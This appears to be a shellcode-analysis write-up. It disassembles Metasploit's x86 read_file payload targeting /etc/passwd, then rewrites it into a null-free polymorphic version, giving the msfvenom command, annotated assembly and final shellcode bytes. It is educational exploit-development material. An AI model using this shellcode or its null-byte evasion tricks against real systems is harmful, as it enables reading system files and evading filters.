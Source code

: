 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.



## Disassembled (UPDATED)

Here I have cleaned and commented the code, as well as put it in a .nasm format.

I noticed there were a lot of null bytes in the shellcode generated from msfvenom, so my polymorphic code revolves around removing those null bytes.

The first substitution I made is replacing an `xor` with a `sub` to zero out the `ecx` register. Note that this strategy may not work with all CPUs.

```x86asm
; xor ecx,ecx     ; replace xor instruction
sub ecx,ecx
```

Next, the original shellcodes does the jmp, call, pop technique to get a pointer to a string. The string is the filename to be read. In this case, I want to remove null bytes from my shellcode, thus I will push values to the stack and move the stack pointer into my register. To push the string terminating null, I will load the string "/etc//passwd" onto the stack and get a pointer to it's address.

```x86asm
; pop ebx         ; <addr> 0x3D (filename from stack)
xor ebx, ebx
push ebx
push 0x64777373         ; "dwss"
push 0x61702f2f         ; "ap//"
push 0x6374652f         ; "cte/" 
mov ebx, esp
```

Note that I have pushed an entire dword of `0x00000000` to the stack as a string terminator by the `push ebx` instruction. Interestingly, I tried to rewrite this to push only a single `0x0` to the stack. I ended up with this code that will essentially load a `0xff` into `ebx` that will be shifted out for a null and placed onto the stack as a null terminator.

```x86asm
mov ebx, 0x647773ff  
shr ebx, 0x8
push ebx
push 0x7361702f         
push 0x6374652f         

mov ebx, esp
```

Unfortunately, this is an extra byte in length than the alternative solution above, so I opted not to use it. But it was fun to work with the `shr` instruction and get another polymorphic variation working.

Then, I change the `mov, 0x3` with an `xor` to clear the register and `mov al, 0x3` to move the value of 3 into the register without having zeros in the shellcode.

```x86asm
; mov eax,0x3     ; read()
xor eax, eax
mov al, 0x3
```

Similar to the above strategy, I remove a `mov edx, 0x1000` with a `mov dh, 0x10` to remove nulls in the shellcode and have the same result.

```x86asm
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
```

I again use the same trick as before to replace the `mov eax, 0x4` instruction:
   
```x86asm
; mov eax,0x4     
xor eax, eax
mov al, 0x4 
```
   
And again with ebx. Except this time since I need a value of 1 in the register, I will use the `inc` instruction to increment it after setting it to 0x0.

```x86asm
; mov ebx,0x1     ; 1 = stdout (where to write output)
xor ebx, ebx
inc ebx
```

I do the same thing for the eax register later in the assembly code.

```x86asm
; mov eax,0x1 
xor eax, eax
inc eax
```

I then replace a `mov ebx, 0x0` with an `xor` to remove null bytes in this instruction.

```x86asm
; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
xor ebx, ebx
```

And that's it for the changes.

## Disassembled (Cleaned and commented)

Here I have cleaned and commented the final `.asm` code. I have left the instructions I replaced commented out.

```x86asm
global _start

section .text
_start:
    ;mov eax, 0x5
    push 0x5
    pop eax


    ; pop ebx         ; <addr> 0x3D (filename from stack)
    xor ebx, ebx
    push ebx
    push 0x64777373         ; "dwss"
    push 0x61702f2f         ; "ap//"
    push 0x6374652f         ; "cte/" 
    mov ebx, esp

    ; xor ecx,ecx     ; replace xor instructions
    sub ecx,ecx
    int 0x80        ; call open() 

    mov ebx,eax     ; ebx now holds file descriptor

    ; mov eax,0x3     ; read()
    xor eax, eax
    mov al, 0x3
                    ; man 2 read
                    ; ssize_t read(int fd, void *buf, size_t count);
    mov edi,esp     
    mov ecx,edi     ; ptr to stack : returned file content will fill this buffer
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
    int 0x80        ; call read()

    mov edx,eax     ; edx holds number of bytes returned from read()

    ; mov eax,0x4     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 4$"
    xor eax, eax
    mov al, 0x4 
                    ; write()
                    ; man 2 write
                    ; ssize_t write(int fd, const void *buf, size_t count);
    ; mov ebx,0x1     ; 1 = stdout (where to write output)
    xor ebx, ebx
    inc ebx

    int 0x80        ; call write() 
                    ; NOTE: ecx still points to stack (buffer to write)

    ; mov eax,0x1     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 1$"
    xor eax, eax
    inc eax

                    ; man exit
                    ; void exit(int status);
    ; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
    xor ebx, ebx

    int 0x80        ; call exit()
```

## New Shellcode

```c
"\x6a\x05\x58\x31\xdb\x53\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x29\xc9\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe7\x89\xf9\xb6\x10\xcd\x80\x89\xc2\x31\xc0\xb0\x04\x31\xdb\x43\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80"
```


## Conclusion

Metasploit payload was 73 bytes with nulls.
My payload is 59 bytes without nulls.